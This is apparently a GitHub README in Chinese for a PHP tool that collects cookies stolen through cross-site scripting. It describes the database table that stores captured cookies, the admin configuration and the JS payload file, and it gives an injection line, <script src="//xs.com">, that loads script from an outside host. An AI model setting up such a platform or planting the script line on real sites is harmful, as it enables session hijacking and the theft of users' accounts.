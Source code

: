 # xss
php写的个人研究测试用的  xss cookie 攻击管理平台,开源出来

<h1>仅用于学习交流，禁止用于非法行为，后果自付
</h1>
<p>
数据库里面只有一张表 tu_message 用于存储cookie,自行建行立数据库，导入表
</P>


<p>
config.php  配置后台登陆用户名与密码,与mysql数据库用户名，密码。
index.php   为xs返回的js原码,自行配置js跨站请求的域名
</p>


<h2>本地测试</h2>
<code>
&lt;script src="//xs.com"&gt;&lt;/script&gt;
</code>


